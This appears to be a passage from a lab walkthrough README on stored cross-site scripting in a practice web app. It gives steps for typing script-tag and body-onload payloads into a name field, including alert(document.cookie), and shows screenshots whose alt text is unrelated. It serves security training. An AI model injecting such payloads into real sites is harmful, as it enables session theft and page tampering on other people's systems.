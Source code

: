 

<br />
Again in the Whats your name textbox type "(<)script(>)alert(document.cookie)(<)/script(>) and then click submit and then go to XSS (stored) in the left pane
<img src="https://i.postimg.cc/JhvNs06R/Screen-Shot-2022-12-28-at-6-51-17-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />





<br />
Type the "ucian1" for the name texbox and then "(<)script(>)alert("uCertify"(<)/script(>)"
<img src="https://i.postimg.cc/NftjgtxS/Screen-Shot-2022-12-28-at-6-55-44-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />





<br />
Type the "ucian2" for the name texbox and then "(<)body onload=alert(document.location(>)"
<img src="https://i.postimg.cc/SKdWGVxN/Screen-Shot-2022-12-28-at-6-57-32-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />








